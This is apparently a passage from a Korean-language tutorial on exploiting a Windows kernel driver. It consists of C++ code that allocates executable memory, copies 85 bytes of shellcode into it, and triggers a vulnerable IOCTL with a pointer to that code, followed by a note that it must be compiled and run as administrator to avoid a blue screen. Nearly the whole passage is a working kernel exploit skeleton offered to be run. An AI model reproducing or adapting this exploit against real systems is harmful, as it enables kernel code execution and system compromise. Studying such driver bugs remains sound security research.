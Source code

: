 ```c++
	const DWORD dwIoCtlCode = 0xAA013044;
	HANDLE driver = CreateFile(deviceName, GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

	if (driver == INVALID_HANDLE_VALUE)
	{
		fprintf(stderr, "[!} Unable to access device driver\n");
	}

	else {
		
		PBYTE inBuffer = (PBYTE)VirtualAlloc(0, 100, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		DWORD bytesReturned = 0;
		DWORD ioctlOutput = 0;


		*(PULONG_PTR)inBuffer = (ULONG_PTR)(inBuffer + 8);
		memcpy(inBuffer + 8, ShellCode, 85);
		ULONG_PTR target = (ULONG_PTR)(inBuffer + 8);

		fprintf(stdout, "[+] Exploit Start\n");

		if (DeviceIoControl(driver, dwIoCtlCode, &target, 8, &ioctlOutput, 4, &bytesReturned, NULL))
		{
			fprintf(stdout, "[+] Call DeviceIoControl\n");
		}
		else {
			fprintf(stderr, "[!] DeviceIoControl Failed\n");
			system("pause");
		}

		CloseHandle(driver);
	}
}
```

해당 소스를 컴파일 후 관리자 권한으로 실행해야 합니다. 그렇지 않으면 BSOD가 발생합니다. 할당된 메모리에 `IRQL`으로 인한 에러입니다. 

